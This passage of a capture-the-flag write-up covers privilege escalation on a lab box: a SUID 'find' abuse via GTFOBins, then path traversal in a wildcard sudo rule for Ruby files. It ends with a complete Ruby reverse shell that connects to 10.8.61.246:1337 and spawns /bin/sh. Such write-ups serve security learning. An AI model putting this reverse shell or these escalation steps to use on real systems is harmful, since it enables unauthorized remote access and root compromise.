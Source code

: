 Our beloved GTFOBins comes in handy and we use a SUID bit set to gain the effect userid of Carlos.

{% embed url="https://gtfobins.github.io/gtfobins/find/#suid" %}

<figure><img src=".gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find our user flag here and then move on to root.

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

## Root

We repeat the same process we used to stabilise our shell as the Hudson user and gain a proper shell as Carlos. As we normally do, we run `sudo -l` on the box and find that we can run any Ruby files in the root directory that end in "rb", which is the file extension for Ruby files.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

One possible solution could be to try and enumerate files in the Root directory, but let's think about this logically. The \* indicates a wildcard meaning as long as the filepath starts with /root/ and ends with ".rb" anything can go inbetween, so we could put our own shell into here  and perform some directory traversal and it'd still work. We head to Revshells and make our Ruby shell, paste it into a file on the box and then start our netcat listener.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '10.8.61.246'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'

```
